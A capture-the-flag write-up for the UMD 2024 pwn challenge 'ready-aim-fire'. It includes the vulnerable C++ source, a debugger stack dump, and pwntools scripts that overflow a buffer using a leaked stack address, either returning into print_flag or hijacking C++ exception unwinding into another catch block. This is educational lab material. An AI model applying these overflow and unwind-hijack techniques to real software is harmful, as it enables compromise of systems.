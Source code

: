 ```yaml
---
title: ready-aim-fire
date: 2024-04-26T14:23:28+03:00
description: Writeup for ready-aim-fire [UMD 2024]
author: PineBel
tags:
  - pwn
draft: false
---
```

## Challenge Description

Firing your weapon when the spice harvester's shields are down requires exceptional timing.

### Intuition
This was a fun challenge which I solved in an unintented way, I will also present the intented solution because it's very interesting. 
We get the source code (and binary) for this challenge and we can see that we have a BOF in the fire method from the Cannon object and we also have a stack leak.

```C
void print_flag() {
    ifstream f{"./flag.txt"};
    if (!f.is_open()) {
        cout << "Failed to open flag file. Contact CTF organizers if you see this error." << endl;
    } else {
        string flag;
        f >> flag;
        cout << flag << endl;
    }
}


void direct_hit() {
    try {
        throw exception{};
    } catch (exception e) {
        cout << "Direct hit!" << endl;
        print_flag();
    }
}

class Cannon {
public:
    int bufIndex;
    char buf[32];

    Cannon(): bufIndex(0) {}

    void fire() {
        char c ;
        for (;;) {
            cin.get(c);
            if (c == '\n') {
                break;
            } else {
                buf[bufIndex++] = c;
            }
        }
        if (bufIndex >= 32) {
            throw out_of_range{""};
        }
    }
};

void fire_weapon() {
    Cannon w;
    w.fire();
}

int main() {
    int target_assist;
    cout << "Quick! While the spice harvester's shields are down! Fire the laser cannon!" << endl;
    cout << &target_assist << endl;

    try {
        fire_weapon();
        cout << "Looks like you missed your opportunity to fire." << endl;
    }
    catch (exception e) {
        cout << "Seems like you missed." << endl;
    }
}
```

We can see that there is a constraint though, if we do a BOF, it will trigger an exception, which will be caught in the main function. Additionally, I noticed an extra function called 'direct_hit,' which suggested that we should attempt to redirect the exception thrown during a BOF into the catch block of 'direct_hit()' to print the flag (the intended solution). Unfortunately, my implementation didn't work as expected. Therefore, my next idea was to overwrite the return address of the main function with the address of 'print_flag()' after the exception was triggered

### Solution

#### Unintented

When first trying to do the BOF the program crashed in the exception handler and we could clearly see that we had overwritten there something.

```c
0x00007ffd8a60ad20│+0x0000: "XXXXXXXX+'@"        ← $rsp, $rbp   <---------------- crash 
0x00007ffd8a60ad28│+0x0008: 0x000000000040272b  →  <main+270> mov rax, rbx  
0x00007ffd8a60ad30│+0x0010: 0x004023e630303030
0x00007ffd8a60ad38│+0x0018: 0x004023e600000000
0x00007ffd8a60ad40│+0x0020: 0x004023e600000000
0x00007ffd8a60ad48│+0x0028: 0x004023e600000000
0x00007ffd8a60ad50│+0x0030: 0x004023e600000000
0x00007ffd8a60ad58│+0x0038: 0x004023e600000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40283a <std::exception::exception(std::exception const&)+12> mov    QWORD PTR [rbp-0x10], rsi
     0x40283e <std::exception::exception(std::exception const&)+16> lea    rdx, [rip+0x255b]        # 0x404da0 <_ZTVSt9exception@GLIBCXX_3.4+16>
     0x402845 <std::exception::exception(std::exception const&)+23> mov    rax, QWORD PTR [rbp-0x8]
●→   0x402849 <std::exception::exception(std::exception const&)+27> mov    QWORD PTR [rax], rdx
     0x40284c <std::exception::exception(std::exception const&)+30> nop    
     0x40284d <std::exception::exception(std::exception const&)+31> pop    rbp
     0x40284e <std::exception::exception(std::exception const&)+32> ret    
     0x40284f                  nop    
     0x402850 <Cannon::Cannon()+0> endbr64 

```

To address this issue, I extended my payload beyond the stack leak address by applying an offset to ensure it wouldn't interfere with the existing code. Then I continued with the address found on the stack ensuring that the exception would execute smoothly and return to the main function.
To complete the exploit, I added the address of the print_flag function to the end of the payload. It was important to ensure that this address was properly aligned when returning from the main function.

```py
payload = b"a"*44 


print_flag = p64(0x4023e6) 
og_main = p64(0x4026be) # replicate stack 
 

target  .recvuntil(b"Fire the laser cannon!")
recvline =  target.recvline()
print(recvline)

stack_leak =  target.recvline()
print(hex(int(stack_leak.decode(),16)))
stack_leak = p64((int(stack_leak.decode(),16))-0x10)

payload += stack_leak 

payload += og_main   
payload += b"0000"+print_flag 
target.sendline(payload)
target.interactive()
```

Although I like this solution the intented one is more elegant.

#### Intented

The intended solution is similar to the unintented one but the main idea is to just overwrite the exception catch from fire() to the one from direct_hit().

```py
target  .recvuntil(b"Fire the laser cannon!")
recvline =  target.recvline()
stack_leak =  target.recvline()
stack_leak = p64((int(stack_leak.decode(),16))-0x10)
payload += stack_leak 
payload += p64(0x402547) # catch from direct_hit
target.sendline(payload)
```

Some other interesting things about the exception handler is that it works stack frame by stack frame, when an exception is thrown the current RIP searches in the .eh_frame section if it's in a catch block in that function. If it's found then it will jump to the catch block otherwise it will unwind the stack to clean it. After this it uses the stored return address to repeat this process on the next stack frame and comparing it to the .eh_frame table. The process goes on until either the exception is caught or it reaches the base exception handler.





